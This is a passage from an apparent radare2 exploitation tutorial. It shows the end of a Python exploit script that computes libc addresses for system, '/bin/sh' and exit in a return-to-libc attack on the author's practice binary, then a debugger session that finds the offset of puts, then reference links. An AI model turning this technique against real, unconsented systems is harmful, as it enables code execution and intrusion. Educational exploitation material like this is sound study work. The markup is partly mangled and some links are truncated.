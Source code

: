     # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    exit_addr = libc_base  + offset_exit

    log.info("system: 0x%x" % system_addr)
    log.info("binsh: 0x%x" % binsh_addr)
    log.info("exit: 0x%x" % exit_addr)

if __name__ == "__main__":
    main()
```

          
          <h3>
            Calculating the real addresses
          </h3>
          
          <p>
            <em>Please notice that in this part of the article, my results would probably be different then yours. It is likely that we have different versions  of libc, thus the offsets won&#8217;t be the same.</em>
          </p>
          
          <p>
            First we need to find the offset of <code>puts</code> from the base address of libc. Again let&#8217;s open radare2 and continue executing until we reach the program&#8217;s entrypoint. We have to do this because radare2 is starting its debugging before <em>libc</em> is loaded. When we&#8217;ll reach the entrypoint, the library for sure would be loaded.
          </p>
          
          <p>
            Let&#8217;s use the <code>dmi</code> command and pass it <em>libc</em> and the desired function. I added some grep magic (<code>~</code>) to show only the relevant line.
          </p>
          
          <div style="overflow-x: auto; margin: 0 0 20px;">
            <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
              <tr style="height: 19.8594px;">
                <td style="height: 19.8594px;">
                  $ r2 <span style="color: #468ee6;">-d</span> <span style="color: #00ccff;">megabeets_0x2</span></p> 
                  
                  <p>
                    Process with PID 24124 started&#8230;<br /> = attach 24124 24124<br /> bin.baddr 0x08048000<br /> Using 0x8048000<br /> Assuming filepath /home/beet/Desktop/Security/r2series/0x2/megabeets_0x2<br /> asm.bits 32<br /> &#8212; A C program is like a fast dance on a newly waxed dance floor by people carrying razors &#8211; Waldi Ravens
                  </p>
                  
                  <p>
                    <span style="color: #468ee6;">[0xf771ab30]></span> dcu entry0<br /> Continue until 0x080483d0 using 1 bpsize<br /> hit breakpoint at: 80483d0
                  </p>
                  
                  <p>
                    <span style="color: #468ee6;">[0x080483d0]></span> dmi libc puts~ puts$<br /> vaddr=0xf758f710 paddr=0x00062710 ord=6490 fwd=NONE sz=474 bind=GLOBAL type=FUNC name=puts
                  </p>
```

 [1]: https://www.megabeets.net/a-journey-into-radare-2-part-1/
 [2]: https://en.wikipedia.org/wiki/NX_bit
 [3]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
 [4]: https://en.wikipedia.org/wiki/Call_stack
 [5]: https://en.wikipedia.org/wiki/Buffer_overflow
 [6]: https://en.wikipedia.org/wiki/Return-oriented_programming
 [7]: https://en.wikipedia.org/wiki/X86_calling_conventions
 [8]: https://www.megabeets.n./r2_part1_2.png
 [9]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2
 [10]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2.c
 [11]: https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries
 [12]: https://en.wikipedia.org/wiki/Position-independent_code
 [13]: https://tk-blog.blogspot.co.il/2009/02/relro-not-so-well-known-memory.html
 [14]: https://reverseengineering.stackexchange.com/a/16115/18698
 [15]: https://www.megabeets.n./mainsym.png
 [16]: https://www.megabeets.n./beetsym.png
 [17]: https://www.megabeets.n./tumblr_m5vxpy8Cs41qfoh4t.gif
 [18]: https://en.wikipedia.org/wiki/De_Bruijn_sequence
 [19]: https://en.wikipedia.org/wiki/C_standard_library
 [20]: https://en.wikipedia.org/wiki/Return-to-libc_attack
 [21]: https://en.wikipedia.org/wiki/Shellcode